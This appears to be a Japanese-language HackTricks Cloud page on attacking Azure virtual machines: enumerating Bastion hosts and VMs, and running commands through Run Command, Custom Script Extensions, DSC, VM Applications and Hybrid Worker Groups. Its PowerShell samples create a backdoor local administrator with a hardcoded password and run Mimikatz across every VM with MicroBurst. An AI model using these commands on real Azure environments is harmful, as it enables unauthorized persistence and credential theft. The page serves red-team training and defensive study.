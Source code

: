 # Az - 仮想マシンとネットワーク

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## 基本情報

[ドキュメントから：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azureの仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)の一つです。通常、他の選択肢よりもコンピューティング環境に対する制御が必要な場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべきこと、作成方法、および管理方法についての情報を提供します。

## Azureネットワーク情報

Azureネットワークには**異なるエンティティと構成方法があります。** 異なるAzureネットワークエンティティの**簡単な説明、** **例、**および**列挙**コマンドは以下にあります：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、Azureポータルを介してSSL経由で安全で完全に管理されたRDP（リモートデスクトッププロトコル）およびSSH（セキュアシェル）アクセスソリューションを提供します。これはAzure仮想ネットワーク内に統合されており、プライベートIPを使用してVMへのRDPおよびSSH接続を可能にし、パブリックIPの必要性を回避します。これにより、VMアクセスのためのパブリックIP割り当てやNSGルール構成を含む従来の方法に対する安全で便利な代替手段となります。開発者やIT担当者は、Azureポータルからウェブブラウザを使用してVMに安全にアクセスでき、開発およびテスト環境のプロセスを効率化します。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 列挙
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADを介して認証されたユーザーにアクセスを許可することが可能です。例えば、**linux VM**にアクセスしようとする場合：`ssh username@azure-corp.com@1.1.1.1`（ログインを試みる際に使用したazurecorpの**メールアドレス**を**使用することが重要です**）というエラーが発生することがあります：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

その**指示に従って**、[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)にアクセスし、コードを入力し、メールアドレスとパスワードを資格情報として使用すれば、SSH経由で接続できるようになります（そのユーザーに十分な権限がある場合：`Virtual Machine Administrator Login`または`Virtual Machine User Login`ロール）。

### **コマンドを実行**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張を実行する**

Azure仮想マシン（VM）拡張は、**Azure VMs**上でのデプロイ後の構成および自動化**タスク**を提供する**小さなアプリケーション**です。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、または内部でスクリプトを実行する機能が必要な場合、VM拡張を使用できます。

したがって、書き込むアクセス権がある場合、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) は、コードを通じてホストを設定するために使用される、Ansible に似た PowerShell ツールです。DSC は Azure と統合されており、特定の構成ファイルをアップロードできます。これらのファイルは厳格な構文に従う必要があります。特に、Azure の DSC 拡張機能は、特定のフォーマット基準を満たすファイルからコマンドを実行でき、DSC 標準の構文が正しくなくても実行されることがあります。

これらのコマンドの実行は、Az PowerShell の [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 関数によって促進されます。要件には、定義された関数を持つ **.PS1** ファイルが含まれ、そのファイルは **.zip** ファイルに圧縮される必要があります。構文が DSC に対して正確でなくても、コードは実行されます。ただし、拡張機能は実行ステータスを「失敗」としてマークし、失敗メッセージによってステータスが上書きされるため、コマンドの出力は表示されません。

### VM Application Definitions

VM Application Definitions は、バージョン管理されたアプリケーションを Azure VM に繰り返しデプロイすることを可能にします。このリソースは、VM 全体でのアプリケーションのデプロイと更新をサポートします。これを設定するには、Az PowerShell の **`New-AzGalleryApplication`** および **`New-AzGalleryApplicationVersion`** などのコマンドを含むいくつかの手順が必要です。

この方法でアプリケーションやコマンドを実行するには、アプリケーションが VM に適用されると自動的にインストールされる **"VMAppExtension"** が関与します。拡張機能は、指定された URI からファイルを取得し、拡張子なしでアプリケーションと同じ名前を付けます。ファイルを正しく実行するには、REST API 呼び出しの "ManageActions" フィールドを設定して、適切な拡張子でファイルの名前を変更する必要があります。この方法の設定が完了すると、提供された図に示されている構造に似たものになります。

ただし、この実行方法は比較的遅く、アプリケーションやコマンドを実行するのに約 3-4 分かかります。このプロセスに関連するファイルは、特定のディレクトリに保存されます（アプリケーションコピー用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` と、実行ステータス用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

両方の技術は、Azure 環境でコマンドを実行し、アプリケーションをデプロイするための独自の方法を提供し、それぞれに独自の要件、手順、および考慮事項があります。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) は、Automation Account で構成された Runbook を、指定された HWG の一部である Azure Virtual Machine (VM) で実行できる Azure の機能です。この実行は、VM にインストールされた拡張機能を通じて促進され、Runbook コードが VM にデプロイされます。このプロセスの重要な側面は、実際の資格情報が実行に影響しないことです。なぜなら、コードは特権昇格された状態で実行され、具体的には **SYSTEM** または root として実行されるからです。

Windows 10 VM を利用する人にとって重要な詳細は、Runbook の PowerShell バージョンを指定する必要があることです。これを PowerShell バージョン 5.1 として実行するように設定する必要があります。これは、PowerShell 7.1 がこれらの VM にデフォルトでインストールされていないため、バージョン 7.1 を指定するとスクリプトの実行が失敗するからです。

Azure のこの機能は、ハイブリッド環境全体でのタスクの自動化と管理のための強力な方法を提供し、Azure VM 上でのタスクの集中管理と実行を可能にします。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

